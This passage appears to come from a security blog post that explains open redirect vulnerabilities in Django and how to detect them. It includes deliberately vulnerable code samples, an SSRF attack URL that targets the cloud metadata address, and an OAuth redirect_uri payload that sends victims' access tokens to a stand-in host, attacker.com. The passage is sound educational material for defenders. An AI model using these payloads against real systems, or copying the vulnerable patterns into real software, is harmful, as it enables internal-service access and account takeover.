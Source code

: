 ```python
import requests
from urllib.parse import urlparse
from django.http import JsonResponse

def image_loader(request):
    url = request.GET.get("url")
    parsed = urlparse(url)

    if not parsed.hostname.endswith("semgrep.dev"):
        return JsonResponse({"error": "Invalid host"}, status=403)
    try:
        resp = requests.get(url) 
        return JsonResponse({"image_data": resp.text})
    except Exception:
        return JsonResponse({"error": "Failed to fetch"}, status=500)
```

An attacker can combine this with the open redirect endpoint:

```
/api/image-loader?url=http://semgrep.dev/redirect?url=http://169.254.169.254/data
```

Because the `requests` library automatically follows redirects, the server fetches data from internal services not intended to be reachable by users, effectively turning the open redirect into an SSRF vector.

### Account takeover with OAuth

Open redirects are especially dangerous when used in authentication flows. For example, in a simplified OAuth endpoint:

```python
from django.http import HttpResponseRedirect

def oauth_start(request):
    cid = request.GET.get("client_id")
    uri = request.GET.get("redirect_uri")
    url = f"https://oauth.provider.com/auth?client_id={cid}&redirect_uri={uri}&response_type=token"
    return HttpResponseRedirect(url)
```

If the redirect URI is not validated, an attacker can supply a URL they control:

```
/api/oauth/start?client_id=1234&redirect_uri=https://attacker.com/callback
```

When the OAuth provider completes the login flow, it sends the victim’s access token to the attacker’s server. With this token, the attacker can impersonate the victim and take over their account.


## Detecting Open Redirect Vulnerabilities in Your Code

We’ve already seen a number of Open Redirect vulnerabilities above. To find similar issues in your code, you need to look for places where user-supplied data can control the URL of a redirect. The simplest, yet surprisingly common, data flow is when a query parameter is used to supply the redirect URL entirely.
